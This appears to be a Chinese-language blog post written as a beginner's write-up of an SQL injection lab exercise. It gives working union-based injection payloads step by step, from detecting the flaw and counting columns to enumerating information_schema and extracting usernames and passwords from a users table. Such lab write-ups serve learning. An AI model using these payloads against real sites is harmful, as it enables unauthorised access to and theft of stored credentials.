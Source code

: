 ```yaml
---
layout: post
title:  "我的SQL（1）"
desc: "新手上路"
keywords: "sql"
date: 2016-11-10
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup
首先注入

>### ?id=1。

Ok。出现Your Login name和Password。

再添加一个单引号。
嗯？！出现sql语句报错，说明存在sql注入，因为没有过滤单引号，所以我们可以用单引号来做文章啦。

接下来，就是猜字段了。

>### ?id=1’ order by 3#

可怕的事出现了。报错了。#没有被编码。香菇。上网找了一下#的URL编码为%23

所以改为

>### ?id=1’ order by 3%23

有显示。试了一下4 。呐报错了。只有三个字段。

接下来就是查询啦啦啦、

>### ?id=1’ union select 1,2,3%23

What？为什么只显示了当`id=1`的东西。What？真让人头大。只好去看源码。

函数`mysql_fetch_array`只被调用了一次，而这个函数只能取得一行行为，也就是说，怎么变它也只能显示第一行的东西。也就是`id=1`。怎么办。让id=1出错？好像能行。

上网一搜。呐id的值通常都是从1开始自增的。我们可以把d设为非正数，浮点数，字符型或字符串都行。

试试?

>### id=0’ union select 1,2,3%23

OK！出来了。太棒了。开始真正搞事情了。、

但是只有两行，怎么列出所有的。呐不担心上网一搜什么都能告诉你。

数据库有一个连接函数，常用的是`concat`和`concat_ws`。其中`concat_ws`的第一个参数是连接字符串的分隔符。

{% highlight sql %}
?id=0' union select 1,2,concat_ws(char(32,58,32),user(),database(),version())%23
{% endhighlight %}

呐。出来了出来了。第一个是当前用户，当前数据库和版本信息。

知道数据库名了。就去查数据库的表啦。。
（首先说一下`mysql`的数据库`information_schema`，他是系统数据库，安装完就有，记录是当前数据库的数据库，表，列，用户权限等信息，下面说一下常用的几个表

`SCHEMATA`表:储存`mysql`所有数据库的基本信息，包括数据库名，编码类型路径等，`show databases`的结果取之此表。

`TABLES`表:储存`mysql`中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。`show tables from schemaname`的结果取之此表

`COLUMNS`表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，猎德注释等。是`show columns from schemaname.tablename`的结果取之此表。）

摘自[这里](http://blog.csdn.net/u012763794/article/details/51207833)

介绍完就开干。

{% highlight sql %}
?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security'%23
{% endhighlight %}

数据库默认显示`limit 0,1`。第一个是`emails`。接着找，用`limit`来偏移。具体如下：

{% highlight sql %}

?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security' limit 1,1%23

?id=0’ union select 1,2,table_name from information_schema.tables where table_schema='security' limit 2,1%23

?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security'limit 3,1%23

{% endhighlight %}

分别是`refers`、`uagents`、`users`。

继续

{% highlight sql %}

?id=0' union select 1,2,table_name from information_schema.tables where table_schema='security' limit 4,1%23

{% endhighlight %}

报错了。只有三个。可以下一步啦。

我们注入当然就只对用户密码有想法啦。所以去爆破`users`哈哈哈、

{% highlight sql %}
?id=0' union select 1,2,column_name from information_schema.columns where table_shcema='security' and table_name='users' limit 0,1%23
{% endhighlight %}

不断地偏移。到第四行就报错。也就说有3个字段。

分别是`id`、`username`、`password`

Ok！知道字段就开始获取数据啦。直接`select`出来就好啦。

{% highlight sql %}
?id=0' union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23
{% endhighlight %}

得到要得到数据。成功。Yeah！
